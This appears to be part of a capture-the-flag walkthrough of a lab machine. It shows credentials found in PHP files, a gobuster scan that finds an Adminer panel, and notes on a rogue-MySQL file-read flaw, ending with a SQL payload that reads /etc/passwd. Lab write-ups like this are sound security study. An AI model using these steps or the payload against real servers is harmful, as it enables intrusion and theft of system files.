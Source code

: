  - Found more creds
	- inside `index.php`

		  $servername = "localhost";
		  $username = "waldo";
		  $password = "]F7jLHw:*G>UPrTo}~A"d6b";
		  $dbname = "admirerdb";

	- and in `utility-scripts/db_admin.php`

		  $servername = "localhost";
		  $username = "waldo";
		  $password = "Wh3r3_1s_w4ld0?";

  - but not working. There is a new web directory `utility-scripts`

## Gobuster 
>__*/utility-scripts/*__

`gobuster dir --url http://10.10.10.187/utility-scripts/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -x php,txt -t 50`
```
/adminer.php (Status: 200)
```

### /adminer.php
>Browsing `http://10.10.10.187/utility-scripts/adminer.php`

__*Found*__

- Adminer login panel
- `version 4.6.2`

#### Google
__search :__ `adminer`

__*search results*__

* [Adminer](https://www.adminer.org/) is a Database management tool for MYSQL
* version 4.6.2 and above <4.7.0 have Serious Vulnerability,
	[foregenix.com blog](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)
* Vulnerability first discovered by security researchers Yashar Shahinzadeh,
	[yashar medium blog](https://medium.com/bugbountywriteup/adminer-script-results-to-pwning-server-private-bug-bounty-program-fe6d8a43fe6f)
* How this Vulnerability works
    * __First__, the attacker will access the victim’s Adminer instance, but instead of trying to connect to thevictim’s MySQL database, they connect “back” to their own MySQL database hosted on their own server.

    * __Second__, using the victim’s Adminer (connected to their own database) – they use the MySQL command specifying a local file on the victim’s server. This command is used to load data from a file local to the Adminer instance, into a database.
	  *sql command for loading file from Adminer instance

		  LOAD DATA LOCAL INFILE '/etc/passwd' 
		  INTO TABLE test
		  FIELDS TERMINATED BY "\n"
